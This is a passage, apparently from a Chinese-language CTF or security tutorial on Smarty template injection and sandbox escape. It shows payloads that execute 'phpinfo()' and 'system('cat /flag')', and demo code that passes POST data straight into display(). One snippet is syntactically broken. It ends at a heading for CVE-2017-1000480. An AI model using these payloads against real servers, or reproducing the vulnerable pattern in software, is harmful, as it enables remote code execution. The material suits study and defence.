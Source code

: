 ```php
{if phpinfo()}{/if}
{if system('cat /flag')}{/if}
```

沙箱逃逸
----

我们对沙箱这个概念并不陌生，简单来说就是给运行中的程序提供保护机制，在smarty模板引擎中，我们使用enableSecurity 来开启沙箱

Smarty提供了一组内置函数和变量，它们被认为是安全的，不会对服务器产生危害。开发者只能使用这些函数和变量，而不能使用任意的PHP函数和变量。

Smarty运行时会创建一个沙箱环境，限制模板中的代码只能访问特定的变量和函数，而不能访问其他变量和函数。开发者可以使用Smarty提供的函数来控制模板中可以访问的变量和函数。

下面是一个基础沙箱的演示

```php
<?php
require_once('./libs/' . 'Smarty.class.php');
$smarty = new Smarty();
$smarty->enableSecurity(
$ip = $_POST['data'];
$smarty->display($ip);    
```

当然还有更加严格的沙箱

```php
<?php
require_once('./libs/' . 'Smarty.class.php');
$smarty = new Smarty();
$my_security_policy = new Smarty_Security($smarty);
$my_security_policy->php_functions = null;
$my_security_policy->php_handling = Smarty::PHP_REMOVE;
$my_security_policy->php_modifiers = null;
$my_security_policy->static_classes = null;
$my_security_policy->allow_super_globals = false;
$my_security_policy->allow_constants = false;
$my_security_policy->allow_php_tag = false;
$my_security_policy->streams = null;
$my_security_policy->php_modifiers = null;
$smarty->enableSecurity($my_security_policy);
$ip = $_POST['data'];
$smarty->display($ip); 
```

CVE-2017-1000480
----------------

### 概述

版本信息：Smarty &lt;= 3.1.32

演示版本：Smarty 3.1.31

实例代码
